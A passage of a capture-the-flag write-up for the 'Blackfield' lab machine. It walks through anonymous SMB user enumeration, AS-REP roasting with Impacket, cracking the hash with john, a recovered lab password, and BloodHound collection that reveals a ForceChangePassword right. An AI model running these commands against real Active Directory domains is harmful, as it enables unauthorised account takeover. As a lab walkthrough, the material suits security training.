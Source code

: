 ```sh
# generate usernames from the directory list
smbclient -N \\\\10.10.10.192\\profiles$ -c ls | awk '{ print $1 }'
```

## Password Spray
With a user list and the Kerberos port open, we can try to spray the users Impacket's GetNpUsers.py in order to see if any user has Kerberos pre-authentication disabled.

```sh
impacket-GetNPUsers blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192 | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
```

![screenshot](/assets/images/blackfield3.png)

```sh
# crack hash using john
john krb5asrep --format=krb5asrep -w=/usr/share/wordlists/rockyou.txt
```

![screenshot](/assets/images/blackfield4.png)

```text
support@blackfiled.local : #00^BlackKnight
```

## BloodHound
```sh
sudo bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c DcOnly
```

First Degree Object Control
Support has `ForceChangePassword` right to AUDIT2020. 
